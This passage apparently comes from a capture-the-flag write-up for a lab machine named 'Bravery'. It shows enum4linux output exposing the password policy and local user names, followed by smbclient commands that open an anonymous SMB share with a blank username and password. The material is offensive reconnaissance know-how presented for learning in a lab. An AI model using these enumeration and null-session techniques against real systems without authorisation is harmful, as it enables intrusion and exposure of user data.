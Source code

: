 ```console
[+] Trying protocol 139/SMB...

[+] Found domain(s):

	[+] BRAVERY
	[+] Builtin

[+] Password Info for Domain: BRAVERY

	[+] Minimum password length: 5
	[+] Password history length: None
	[+] Maximum password age: 37 days 6 hours 21 minutes 
	[+] Password Complexity Flags: 000000

...

[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5

 ================================================================== 
|    Users on bravery via RID cycling (RIDS: 500-550,1000-1050)    |
 ================================================================== 

...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\david (Local User)
S-1-22-1-1001 Unix User\ossec (Local User)
S-1-22-1-1002 Unix User\ossecm (Local User)
S-1-22-1-1003 Unix User\ossecr (Local User)
S-1-22-1-1004 Unix User\rick (Local User)
...
```

Findings summary:
* Password policy seems to be at least 5  chars long. 
* Shares - Found 2 shared directories: **anonymous** and **secured**
* List of local users which might be used on this or another service login

According to enum4linux, we can login to the **anonymous** shared directory **using blank username and password**.

We'll use the following command: `smbclient //TARGET_IP/SHARENAME -U USERNAME` where the username can be blank (or `''`)

The **secured** shared directory is not accessible using the command `smbclient //bravery/secured -U` as it requires a password we don't have at this point.
Let's try the **anonymous** directory using blank username and password:

```console
$ smbclient //bravery/anonymous -U
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 28 09:01:35 2018
  ..                                  D        0  Thu Jun 14 12:30:39 2018
  patrick's folder                    D        0  Fri Sep 28 08:38:27 2018
  qiu's folder                        D        0  Fri Sep 28 09:27:20 2018
  genevieve's folder                  D        0  Fri Sep 28 09:08:31 2018
  david's folder                      D        0  Tue Dec 25 21:19:51 2018
  kenny's folder                      D        0  Fri Sep 28 08:52:49 2018
  qinyi's folder                      D        0  Fri Sep 28 08:45:22 2018
  sara's folder                       D        0  Fri Sep 28 09:34:23 2018
  readme.txt                          N      489  Fri Sep 28 09:54:03 2018
```